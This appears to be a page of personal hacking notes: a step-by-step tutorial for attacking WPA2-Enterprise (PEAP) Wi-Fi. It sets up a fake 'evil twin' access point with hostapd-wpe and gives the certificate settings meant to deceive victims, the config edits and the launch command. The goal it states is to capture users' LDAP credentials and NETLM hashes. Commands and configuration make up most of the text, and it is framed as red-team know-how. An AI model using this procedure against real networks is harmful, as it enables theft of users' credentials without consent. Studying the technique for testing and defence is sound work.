 ```yaml
---
title: Hacking Wifi - WPA/WPA2 PEAP (Enterprise)
category: Hacking Wifi
order: 3
---
```


In networks with WPA2 PEAP which means Enterprise don't use a pre shared key, the users authenticate with the LDAP credentials. As the router or AP doesn't know if the credentials are correct or not, it delegate to a RADIUS server. The handshake can't not be capture because the authentication is not completed by the server so instead of capturing the handshake we will create a `EvilTwin` but in this case with authentication (Which we are interesting to capture, remember that there are LDAP credentials).

![WPA2 PEAP Message Exchange](/hackingnotes/images/wpa2_peap.png)

# EvilTwin

To carry out this task, we are going to use `hostapd-wpe` software.

## Configuring Certificates

First we need to aclare that when the user will authenticate to our fake AP, some information about the certificate will be displayed, in order to cheat our víctims, the certificate will seems as much real as posible.

So we need to modify the following files:

* /etc/hostapd-wpe/certs/server.cnf

```
[server]
countryName             = ES
stateOrProvinceName     = Salamanca
localityName            = Salamanca
organizationName        = Red Team Inc.
emailAddress            = admin@redteam.com
commonName              = "Certificado de Red Team Inc."
```

* /etc/hostapd-wpe/certs/client.cnf

```
[client]
countryName             = ES
stateOrProvinceName     = Salamanca
localityName            = Salamanca
organizationName        = Red Team Inc.
emailAddress            = user@redteam.com
commonName              = user@redteam.com
```

* /etc/hostapd-wpe/certs/ca.cnf

```
[certificate_authority]
countryName             = ES
stateOrProvinceName     = Salamanca
localityName            = Salamanca
organizationName        = Red Team Inc.
emailAddress            = admin@redteam.com
commonName              = "Entidad certificadora de Red Team Inc."
```

Finally, we just need to create it with `bootstrap`.

```
/etc/hostapd-wpe/certs/bootstrap
```

## Configuring te Fake AP

Onced configured and created the certificates, the final step is to configure our FAKE AP. We need to create a backup of the default hostapd config file and modify it.

```
cp /etc/hostapd-wpe/hostapd-wpe.conf /etc/hostapd-wpe/redteam.conf
vim /etc/hostapd-wpe/redteam.conf

#Modify the following values:

interface=<IFACE>
ssid=<ESSID>
channel=<CHANNEL>
```

## Launch & wait for s3crets

Finally, just launch the `hostapd-wpe` indicating the modified configuration file.

```
hostapd-wpe /etc/hostapd-wpe/redteam.conf
```

When the victim falls into our trap, we can obtain their NETLM hash.
